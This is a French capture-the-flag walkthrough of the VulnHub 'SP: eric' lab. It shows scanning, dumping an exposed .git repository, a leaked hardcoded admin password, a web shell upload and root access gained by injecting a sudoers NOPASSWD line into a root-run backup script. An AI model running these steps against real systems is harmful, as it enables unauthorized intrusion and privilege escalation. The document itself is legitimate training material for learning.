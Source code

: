 # Solution du CTF SP: Eric de VulnHub

Le CTF [SP: eric](https://www.vulnhub.com/entry/sp-eric,274/) proposé sur VulnHub m'aura occupé quelques minutes. Avec une bonne énumération et les bons outils il tombe vite.

```
Nmap scan report for 192.168.56.76
Host is up (0.00025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d379153d114caf266cb2af6a0b9914fd (RSA)
|   256 8748763881c2a050cd4c39c07c7a0740 (ECDSA)
|_  256 8eb9dd8d149be3631dd70e54988d295b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Blog under construction
| http-git: 
|   192.168.56.76:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: minor changes 
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

J'avais lancé en parallème un `feroxbuster` qui a remonté les fichiers suivants sur le port 80 :

```
200       15l       27w      306c http://192.168.56.76/admin.php
200       13l       38w      281c http://192.168.56.76/index.php
301        9l       28w      315c http://192.168.56.76/upload
```

Allons voir du côté de ce dossier *.git* avec [GitDump: A pentesting tool that dumps the source code from .git even when the directory traversal is disabled](https://github.com/Ebryx/GitDump) :

```shellsession
$ python3 git-dump.py 
Please provide website URL with /.git/ directory e.g. example.com/.git/
$ python3 git-dump.py  http://192.168.56.76/.git/
URL for test: http://192.168.56.76/.git/
Fetching: http://192.168.56.76/.git/index
Fetching: http://192.168.56.76/.git/FETCH_HEAD
Fetching: http://192.168.56.76/.git/HEAD
Fetching: http://192.168.56.76/.git/ORIG_HEAD
Fetching: http://192.168.56.76/.git/config
Fetching: http://192.168.56.76/.git/description
Fetching: http://192.168.56.76/.git/info/exclude
Fetching: http://192.168.56.76/.git/info/refs
Fetching: http://192.168.56.76/.git/logs/HEAD
Fetching: http://192.168.56.76/.git/logs/refs/heads/develop
Fetching: http://192.168.56.76/.git/logs/refs/heads/master
Fetching: http://192.168.56.76/.git/packed-refs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/heads/develop
Fetching: http://192.168.56.76/.git/refs/heads/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/objects/info/packs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://192.168.56.76/.git/objects/cc/1ab96950f56d1fff0d1f006821cab6b6b0e249
Fetching: http://192.168.56.76/.git/objects/3d/b5628b550f5c9c9f6f663cd158374035a6eaa0
Fetching: http://192.168.56.76/.git/objects/23/448969d5b347f8e91f8017b4d8ef6edf6161d8
Fetching: http://192.168.56.76/.git/objects/a8/9a716b3c21d8f9fee38a0693afb22c75f1d31c
Fetching: http://192.168.56.76/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://192.168.56.76/.git/objects/c0/951efcb330fc310911d714acf03b873aa9ab43
Fetching: http://192.168.56.76/.git/objects/f6/4fb0e9d514c96dd3debd4cdb2b80ba21951dec
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
$ cd output && git checkout -- .
$ ls
admin.php  index.php
```

La totalité de la logique du site est présente dans `admin.php`. Je vous en laisse un extrait seulement :

```php
if ($_POST['submit']) {
    if ($_POST['username'] == 'admin' && $_POST['password'] == 'st@mpch0rdt.ightiRu$glo0mappL3') {
        $_SESSION['auth'] = 1;
    } else {
        exit("Wrong username and/or password. Don't even bother bruteforcing.");
    }
}
```

L'accès à l'interface admin à l'aide de ces identifiants nous permet d'uploader un web shell vers le dossier `/upload`.

Après comme à mon habitude j'utiliser reverse-ssh pour avoir un shell avec PTY.

```shellsession
www-data@eric:/home/eric$ ls
total 64K
drwxr-xr-x 4 eric eric 4.0K Dec 20 16:27 .
drwxr-xr-x 3 root root 4.0K Oct 28  2018 ..
-rw------- 1 eric eric   81 Dec 23  2018 .bash_history
-rw-r--r-- 1 eric eric  220 Oct 28  2018 .bash_logout
-rw-r--r-- 1 eric eric 3.7K Oct 28  2018 .bashrc
drwx------ 2 eric eric 4.0K Oct 28  2018 .cache
drwxrwxr-x 3 eric eric 4.0K Oct 28  2018 .local
-rw-r--r-- 1 eric eric  807 Oct 28  2018 .profile
-rw-r--r-- 1 eric eric    0 Oct 28  2018 .sudo_as_admin_successful
-rwxrwxrwx 1 root root   55 Oct 28  2018 backup.sh
-rw-r--r-- 1 root root  24K Dec 20 13:27 backup.zip
-rw-r--r-- 1 root root   13 Oct 28  2018 flag.txt
www-data@eric:/home/eric$ cat flag.txt 
89340a834323
```

Le contenu du script bash est le suivant :

```bash
#!/bin/bash
zip -r /home/eric/backup.zip /var/www/html
```

Il est visiblement exécuté régulièrement avec les droits root car le `backup.zip` est récent.

Je rajoute la ligne suivante dans le script :

```bash
echo "www-data ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers
```

et 3 minutes plus tard :

```shellsession
www-data@eric:/home/eric$ sudo /bin/bash
root@eric:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@eric:/home/eric# cd /root
root@eric:~# ls
flag.txt
root@eric:~# cat flag.txt
6a347b975dd18ae6497c
```

*Publié le 20 décembre 2022*
